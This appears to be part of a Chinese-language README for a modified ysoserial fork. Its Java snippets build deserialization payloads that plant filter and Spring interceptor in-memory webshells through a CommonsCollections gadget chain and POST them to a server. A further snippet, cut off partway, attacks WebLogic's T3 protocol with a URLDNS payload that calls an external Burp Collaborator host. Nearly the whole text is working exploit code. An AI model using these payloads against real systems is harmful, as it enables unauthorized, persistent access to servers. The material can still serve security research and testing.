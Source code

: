 > 支持所有底层用了 `TemplatesImpl` 的链子

filter 内存马：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.memshell.FilterShell2;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8080/bitch";
        Object o = new FilterShell2().getObject(CommonsCollections10.class);
        byte[] ser = Serializer.serialize(o);
        byte[] resp = new HttpRequest(url).addPostData(ser).send();
        System.out.println(new String(resp));
    }
}
```

springboot interceptor 内存马：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.memshell.SpringInterceptorShell;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8080/bitch";
        Object o = new SpringInterceptorShell().getObject(CommonsCollections10.class);
        byte[] ser = Serializer.serialize(o);
        byte[] resp = new HttpRequest(url).addPostData(ser).send();
        System.out.println(new String(resp));
    }
}
```

### 攻击 T3：

```java
package top.inhann;

import ysoserial.payloads.T3;
import ysoserial.payloads.URLDNS;
import ysoserial.payloads.util.SocketClient;

public class Test {
    public static void main(String[] args) throws Exception{
        SocketClient s = SocketClient.remote("wsl.com",7001);

        Object evil = new URLDNS().getObject("http://6biqhbd2azsc3wq9wv5uqqrep5vwjl.burpcollaborator.net");
        byte[] handshake = new T3().handShake();
        byte[] payload = new T3().getPayload(evil);

        s.send(handshake);
        s.recvline();
        s.send(payload);
```